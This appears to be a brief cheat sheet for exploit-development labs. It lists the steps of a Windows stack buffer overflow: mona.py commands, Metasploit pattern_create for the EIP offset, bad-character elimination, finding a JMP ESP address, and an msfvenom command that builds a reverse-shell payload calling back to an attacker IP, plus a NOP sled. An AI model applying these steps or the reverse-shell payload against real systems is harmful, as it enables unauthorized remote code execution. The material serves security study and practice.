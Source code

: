 Buffer overflow
================================================================
-   Set workingfolder	

    `!mona config -set workingfolder c:\mona\%p`
-   Fuzzing	

    `Using fuzzer.py`

-   create pattern on bytes crashes	

    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]`

-   findmsp on bytes crashes	

    `!mona findmsp -distance [bytes_range]`

-   check for eip offset value

-   set value offset and retn value	

-   Make sure eip same with retn value	

-   check bad character	

    `!mona bytearray -b "\x00"`

-   generate a string of bad character	

    `Using badchars.py`

-   compare bad character 	

    `!mona compare -f bytearray.bin -a [esp address]`

-   check list possible bad chars	

-   generate new bad chars with possible chars we found until unmodified with esp address	

-   find jump point choose the top one	

    `!mona jmp -r esp -cpb  "\x00[possible bad chars]"`

-   update retn with new address from jump point	

    `retn = reverse address ("\xaf\x11\x50\x62")`

-   create msfvenom payload 

    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c`

-   add padding	                
    
    `"\x90" * 16`

